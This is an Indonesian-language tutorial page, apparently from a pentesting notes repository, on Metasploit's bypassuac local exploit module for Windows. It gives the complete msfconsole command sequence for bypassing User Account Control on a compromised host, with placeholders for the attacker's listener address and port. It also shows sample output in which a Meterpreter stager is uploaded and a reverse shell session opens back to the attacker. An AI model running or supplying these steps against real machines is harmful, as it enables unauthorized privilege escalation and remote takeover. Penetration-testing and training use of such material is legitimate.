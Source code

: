 # bypassuac

Modul `bypassuac` di Metasploit adalah modul `exploit local` untuk sistem Windows yang digunakan untuk melewati mekanisme User Account Control (`UAC`), memungkinkan eskalasi hak akses dari user biasa ke level `administrator` tanpa memunculkan prompt izin `UAC` pada target yang telah dikompromi.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/bypassuac
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set TECHNIQUE EXE
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 7 opened (192.168.1.11:4444 -> 192.168.1.53:49166) at 2025-05-17 05:10:35 +0700

meterpreter >
```
